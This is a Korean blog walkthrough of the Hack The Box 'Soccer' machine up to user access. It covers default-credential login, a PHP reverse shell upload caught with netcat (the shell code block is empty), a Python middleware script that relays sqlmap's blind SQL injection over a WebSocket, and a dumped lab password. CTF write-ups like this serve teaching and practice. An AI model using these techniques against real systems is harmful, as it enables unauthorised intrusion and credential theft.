 ```yaml
---
date: '2023-03-03'
before : '2023-03-02'
after : '2023-03-15'
title: 'Hack The Box Machine : Soccer'
categories: ['C-SEC', 'KOR', 'webhack', 'HTB']
summary: 'HTB 2023 Machine 중 하나인 Soccer의 풀이'
thumbnail: './HTB.png'
---
```


### 0. 오늘의 문제 소개

![projectManage](../contentImages/Soccer.png)

2023년 3월 기준 HTB Active Easy로 레이팅 되어있는 머신 중 하나인 Soccer의 풀이를 해 보았다. 하지만 말이 Easy지 레이팅 지표를 보면 Medium에 가까워서 그렇게 쉽진 않았다. 한 두시간정도 걸린 것 같다.


### 1. Information Gathering


일단 nmap 스캔부터 돌려보자.

![nmap](../contentImages/soccer/1.png)

특이점은 없지만 맨 밑에 처음 보는 희안한 포트가 (9091) 열려있었는데, 이건 나중에 Privilege Escalation 할 때 필요한 거였다. 일단은 http가 열려있으니 /etc/hosts에 추가하고 접속해보자.

![soccerhtb](../contentImages/soccer/2.png)

보기에 별 다를 것 없는 사이트이다. 그럼 정석대로 Directory Fuzzing을 해서 서브다이렉토리가 존재하나 확인해보자.

![fuzzer](../contentImages/soccer/3.png)

예상하긴 했지만 tiny라는 희안한 서브다이렉토리가 존재한다. 바로 들어가보자.

### 2. Gaining Initial Foothold

![tiny](../contentImages/soccer/4.png)

이런 로그인 창이 뜨는데, 밑에 Copyright를 눌러보니 이 플러그인 제작자의 홈페이지가 뜬다.

![copyright](../contentImages/soccer/5.png)

여길 이곳저곳 탐색하다보니, 이 플러그인의 default 유저이름/암호가 admin:admin@123이란 것을 알 수 있었다. 실제 Pentest에선 모르지만, 보통 CTF에선 이런 정보가 보이면 그 크레덴셜이 유용한 경우가 많은 것 같다. 역시나 로그인이 된다. 로그인을 하니

![uploadPage](../contentImages/soccer/6.png)

이런 파일 업로드용 홈페이지가 뜬다. 아마 100프로로 File Upload관련 취약점이 존재할 것이다. 저기 tiny 폴더로 들어가서 reverse shell 업로드를 진행해보자. reverse shell은 다음과 같은 코드를 사용했다.

```

```
![uploading](../contentImages/soccer/7.png)

업로드를 하고, nc -lvnp로 내 서버를 켠 다음 파일이 업로드된 경로로 접속해보자. 경로가 /tiny/내_파일_이름.php라고 친절하게 알려준다.

![revshell](../contentImages/soccer/8.png)

성공적으로 쉘이 나왔다. 하지만 이게 끝은 아니다. 아직 유저 권한도 얻지 못한 듯 하다. 시스템을 열심히 탐색해보자... 

### 3. User Privilege

! 시스템을 탐색하다보니 (그냥 파일/경로 열어보기 노가다..) soc-player.soccer.htb라는 vhost가 존재하는 듯 하다. 접속해보니

![soc-player](../contentImages/soccer/9.png)

이런 페이지가 뜬다. 회원가입이 가능하니 얼른 가입하고 로그인을 해보자.

![logged-on](../contentImages/soccer/10.png)

이렇게 뭔가를 입력할 수 있는 화면이 뜨는데..? 이 부분이 좀 어려웠다. 페이지 소스를 확인해보니

![socket](../contentImages/soccer/11.png)

Web Socket으로 통신이 이루어진다는걸 확인할 수 있다. 저런 확인 시스템이 있는 걸 보니 일단 SQL Injection 관련인 것 같긴 한데... 구글링을 해보니 Web Socket Blind SQL Injection이 존재한다는걸 알 수 있었다. 


https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html


구글링 없이 해킹은 절대 무리란걸 다시한번 상기하며, 해당 블로그에 나와있는 파이썬 소켓 코드를 (middleware식으로 동작한다)내 컴퓨터에 작성한다. 물론 우리 상황에 맞게 살짝 코드를 바꾸긴 해야하지만 큰 틀에선 비슷하다.

```
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091"

def send_ws(payload):
 ws = create_connection(ws_server)
 # If the server returns a response on connect, use below line 
 #resp = ws.recv()
 
 # For our case, format the payload in JSON
 message = unquote(payload).replace('"','\'') # JSON으로 만든다.
 data = '{"id":"%s"}' % message # 이 부분은 살짝 바뀐다.

 ws.send(data)
 resp = ws.recv()
 ws.close()

 if resp:
  return resp
 else:
  return ''

def middleware_server(host_port,content_type="text/plain"):

 class CustomHandler(SimpleHTTPRequestHandler):
  def do_GET(self) -> None:
   self.send_response(200)
   try:
    payload = urlparse(self.path).query.split('=',1)[1]
   except IndexError:
    payload = False
    
   if payload:
    content = send_ws(payload)
   else:
    content = 'No parameters specified!'

   self.send_header("Content-type", content_type)
   self.end_headers()
   self.wfile.write(content.encode())
   return

 class _TCPServer(TCPServer):
  allow_reuse_address = True

 httpd = _TCPServer(host_port, CustomHandler)
 httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
 middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
 pass
```

이렇게 하고 sqlmap을 실행시킨다.

```
sqlmap -u “http://localhost:8081/?id=1" -p “id”
```

![sqlmap](../contentImages/soccer/12.png)

실행시켜보면 위와 같이 sql취약점을 발견할 수 있고, 그걸 바탕으로 db를 탐색하면 유저의 credential을 얻을 수 있다 :


1324 | player@player.htb | player   | PlayerOftheMatch2022


이제 ssl로 로그인을 해보고 ls를 때려보면...!

![user_exploit](../contentImages/soccer/13.png)

유저로 로그인을 할 수 있고, user.txt flag를 얻을 수 있다.

### 4. 마치며

사실 글이 이렇게 길어질 줄 몰랐다. 이거 절대 easy 아니다. 내 첫 Hack The Box pwn으로 이상한 걸 고른 것 같다. 다른 box들은 이렇게 어렵지 않던데... 여기까지가 유저 권한 취득이고, 루트 권한 취득은 좀 더 괴랄(?) 해진다. 


Root Privilege도 막 따 놓은 참이긴 하지만 다음에 마저 스크린샷 찍고 정리해서 올려야지 (절대 귀찮은게 아니다.)

## Source

- Hack The Box 2023
- Me!


